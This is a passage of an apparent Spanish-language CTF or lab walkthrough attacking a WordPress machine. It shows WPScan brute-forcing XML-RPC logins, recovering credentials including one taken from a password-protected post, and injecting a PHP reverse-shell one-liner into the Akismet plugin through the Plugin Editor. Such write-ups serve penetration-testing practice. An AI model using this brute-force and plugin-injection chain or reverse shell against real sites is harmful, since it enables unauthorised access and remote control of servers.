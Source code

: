 ```
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - maybeadmin / $EPid%J2L9LufO5                                                                                                                     
Trying notadmin / $*Ke7q2ko3tqoZo Time: 00:00:00 <===============================================                           > (18 / 28) 64.28%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: maybeadmin, Password: $EPid%J2L9LufO5

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun  3 10:18:11 2024
[+] Requests Done: 184
[+] Cached Requests: 4
[+] Data Sent: 56.654 KB
[+] Data Received: 184.04 KB
[+] Memory used: 229.223 MB
[+] Elapsed time: 00:00:03
```

Vemos que conseguimos las credenciales de 1 usuario...

```
User = maybeadmin
Password = $EPid%J2L9LufO5
```

Si nos logeamos con este usuario veremos que no somos `admin` por lo que no podremos hacer mucho, pero si nos vamos a un `Post` en concreto llamado `Secure Post — Password protected` veremos la contraseña del otro usuario llamado `notadmin`...

```
Really!? Agaain? Make sure you don't forget it now!

notadmin:Pa$$w0rd13!&
```

Con esto ya estariamos dentro con el rol de `administrador`, por lo que haremos lo siguiente...

Nos iremos a `plugins` dentro de esa seccion nos iremos a `Plugins Editor` ahi modificaremos el codigo de `php` para inyectar una `Reverse Shell` de la siguiente manera...

El `plugin` se llamara `Akismet Anti-Spam`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```
